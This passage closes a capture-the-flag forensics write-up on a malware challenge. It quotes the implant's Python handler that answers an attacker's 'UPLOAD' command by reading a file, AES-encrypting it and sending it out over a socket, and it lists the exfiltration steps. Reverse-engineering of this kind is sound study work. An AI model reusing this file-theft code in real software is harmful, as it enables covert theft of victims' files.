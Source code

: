 ```python
        receive_thread.start()
    
    except Exception:
        # Error handling (connection failed, etc.)
        pass
```

### File Exfiltration Process

By analyzing the code, we can see how the file exfiltration process works:

1. Attacker sends "UPLOAD" command with file path
2. Malware reads the file and encrypts it using AES
3. Malware sends file size information with format `{path_to_file}<SEPARATOR>{filesize}`
4. After receiving acknowledgement, malware sends the encrypted file
5. Communication includes the separator tag to mark different parts of the messages

The relevant code snippet is:

```python
# Handle upload file command
elif msg.startswith("UPLOAD"):
    path_to_file = msg.split(SEPARATOR)[1]
    
    # Read file and get size
    with open(path_to_file, "rb") as f:
        bytes_read = f.read()
    
    # Send file size info
    filesize = len(bytes_read)
    bytes_enc = enc_mes(f"{path_to_file}{SEPARATOR}{filesize}", k)
    client.send(bytes_enc)
    
    # Wait for acknowledgement
    vsb = client.recv(BUFFER_SIZE)
    
    # Send encrypted file
    enc_answer = enc_mes(bytes_read, k)
    client.sendall(enc_answer)
    continue
```

## Conclusion

This challenge demonstrated a realistic attack scenario involving web exploitation, obfuscated payloads, encrypted communications, and data exfiltration. By methodically analyzing the network traffic and reverse engineering the malicious code, we were able to recover most of the key information about the attack.

We've successfully answered 5 out of 6 questions with high confidence. The last question, regarding the MD5 hash of the exfiltrated file, requires further investigation or confirmation.

**Author**: [binchickens69](https://ctf.hackthebox.com/user/profile/605069)